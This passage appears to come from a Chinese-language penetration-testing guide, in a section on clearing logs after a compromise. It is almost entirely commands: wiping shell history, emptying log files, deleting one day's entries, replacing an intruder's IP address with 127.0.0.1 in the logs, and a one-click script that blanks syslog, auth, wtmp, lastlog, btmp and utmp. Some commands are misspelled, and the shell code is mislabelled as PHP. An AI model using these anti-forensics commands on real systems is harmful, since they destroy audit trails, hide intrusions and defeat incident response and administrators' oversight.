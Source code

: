 五、日志清除
------

清除历史命令

```php
histroy -r          #删除当前会话历史记录
history -c          #删除内存中的所有命令历史
rm .bash_history   #删除历史文件中的内容
HISTZISE=0          #通过设置历史命令条数来清除所有历史记录
```

完全删除日志文件（下面任意一个即可）

```php
cat /dev/null > filename
: > filename
> filename
echo "" > filename
echo > filename
```

删除当天日志

```php
sed  -i '/当天日期/'d  filename
```

篡改日志

```php
将所有170.170.64.17ip替换为127.0.0.1
sed -i 's/170.170.64.17/127.0.0.1/g'
```

日志一键清除脚本

```php
#!/usr/bin/bash
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
rm ~/./bash_history
history -c
```

参考（站在巨人的肩膀上登高望远）:

[https://mp.weixin.qq.com/s/fWlux47luH\_zvYpXcZXeYA](https://mp.weixin.qq.com/s/fWlux47luH_zvYpXcZXeYA)
